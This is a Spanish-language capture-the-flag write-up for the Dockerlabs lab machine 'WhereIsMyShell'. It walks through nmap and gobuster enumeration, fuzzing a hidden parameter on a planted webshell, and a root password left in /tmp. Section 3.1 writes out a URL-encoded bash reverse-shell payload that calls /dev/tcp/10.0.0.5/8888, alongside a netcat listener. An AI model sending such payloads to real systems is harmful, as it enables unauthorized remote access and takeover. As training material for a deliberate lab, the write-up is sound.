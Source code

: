 # Write-up: 

- **Nombre de la máquina:** `WhereIsMyShell` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Fácil`

---

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
	`ping 172.17.0.2`
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux.

![](Imagenes/222.png)
#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                |
| ------ | -------- | ------------- | ------------------------------------ |
| 80     | http     | Apache 2.4.57 | Iniciaremos por aquí. No hay otro XD |

/
![](Imagenes/223.png)

Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o clave rsa. En este caso carecemos de información al respecto así que lo más productivo es explorar el puerto :80

---

## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.

### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Vemos una frase : "==Pista==: "Guardo un secretito en /temp;)"
    ![](Imagenes/224.png)
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	![](Imagenes/225.png)
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `/backup`--> X
	- `/uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:
- Lanzamos la herrmaienta `whatweb` para que nos de información sobre la aplicación web. 
	`whatweb 172.17.0.2` 
	![](Imagenes/226.png)
	Nada relevante. 


- Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![[Captura de pantalla 2025-08-21 193847.png]]
**Hallazgos:**
Vemos  rutas llamativas:
- 172.17.0.2/shell.php: 
  Podemos ver una página en blanco...
	
- 172.17.0.2/warning.html:
	Podemos leer: `Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo... `
![](Imagenes/227.png)

Teniendo como pista que existe un parámetro que no recuerda haremos fuzzing a `shell.php` y encontramos el parámetro :

![](Imagenes/228.png)


Con el que hemos podido ejecutar la consola en `shell.php`
![](Imagenes/229.png)

Si hemos podido ejecutar comandos en una consola, utilizaremos esta brecha para ejecutar una `revershell`



---

## 3. EXPLOTACIÓN

### 3.1 Acceso inicial:

Ejecutaremos la revershell en dos pasos sencillos:
1. Levantaremos un puerto de escucha, en nuestro caso el 8888
   `sudo nc -nvlp 8888`
   
2. Generaremos un código en https://www.revshells.com/ que abusando de la vulnerabilidad que hemos encontrado`RCE- Ejecución remota de comandos`  nos ejecutara la revershell y tendremos acceso desde nuestra terminal. 
   
```
 http://172.17.0.2/shell.php?parameter=bash%20-c%20%22/bin/bash%20-i%20%3E%26%20/dev/tcp/10.0.0.5/8888%200%3E%261%22
```

![](Imagenes/230.png)


---

## 4. ESCALADA DE PRIVILEGIOS

Una vez dentro, el objetivo es elevar los privilegios del usuario actual al de `root`.

### 4.1. Enumeración Interna

Se realizan comprobaciones básicas y se buscan posibles vectores de escalada.

#### Comprobaciones del sistema:

¿A qué grupo pertenezco?
`id`

![](Imagenes/231.png)
¿Qué usuario hay en el sistema?
¿Qué usuario tienen una shell asignada?

![](Imagenes/232.png)



#### Búsqueda del Vector de Escalada:

Si recordamos en la pista encontrada anteriormente nos decían que escondían un secreto en `/tmp`. Lo revisamos:
`/tmp`:

![](Imagenes/233.png)

Encontramos el archivos `.secret.txt` donde encontramos la contraseña de `root`
![](Imagenes/234.png)

**Credenciales obtenidas:**
- **Usuario:** `root`
- **Contraseña:** `contraseñaderoot123`

### 4.2. Explotación y Escalada a Root

Probamos las credenciales encontradas y BINGO🚀 
![](Imagenes/235.png)



SOMOS ROOT🚀


